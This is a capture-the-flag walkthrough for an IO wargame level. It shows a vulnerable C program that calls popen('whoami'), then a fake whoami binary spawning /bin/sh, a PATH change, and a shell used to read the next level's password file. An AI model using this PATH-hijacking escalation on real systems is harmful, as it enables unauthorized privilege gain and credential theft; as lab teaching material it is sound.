 Check out the source code in level04.c
```
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
    char username[1024];
    FILE* f = popen("whoami","r");
    fgets(username, sizeof(username), f);
    printf("Welcome %s", username);

    return 0;
}
```

Doesn't look like we need a buffer overflow for this challenge, considering that we can't really control what goes into the username buffer. One thing we can control, though, is what bash thinks is the `whoami` binary. When a command line utility like `ls` or `cd` or `whoami` is called, bash searches through all the paths in the PATH environment variable for the matching binary. And we *can* control the PATH environment variable in our current bash session. So what we need to do is write our own little binary that calls one of the exec functions, compile it with the name whoami, then modify the PATH environment variable.

We need to find a directory where we have write access, and chances are that /tmp is probably writable. So we type `mkdir /tmp/ZZZ`. Now that we have somewhere to write, here's a sample file named whoami.c:
```
#include <unistd.h>

int main() {
    execl("/bin/sh", "sh", NULL);

    return 0;
}
```

Now we need to compile it:
```
level4@io:/tmp/ZZZ$ gcc -o whoami whoami.c
```

Modify the PATH environment variable:
```
level4@io:/tmp/ZZZ$ export PATH=/tmp/ZZZ:$PATH
level4@io:/tmp/ZZZ$ echo $PATH
/tmp/ZZZ:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
Excellent, now when we type `whoami`, bash will first search our directory of `/tmp/ZZZ` and run our binary which calls `execl("/bin/sh", "sh", NULL);` and subsequently get us a shell as user level5.

Now we change directories back into /levels and run the level04 binary and watch what happens.
```
level4@io:/tmp/ZZZ$ cd /levels/
level4@io:/levels$ ./level04
sh-4.2$ cat /home/level5/.pass
Welcome [the password for level5]
```
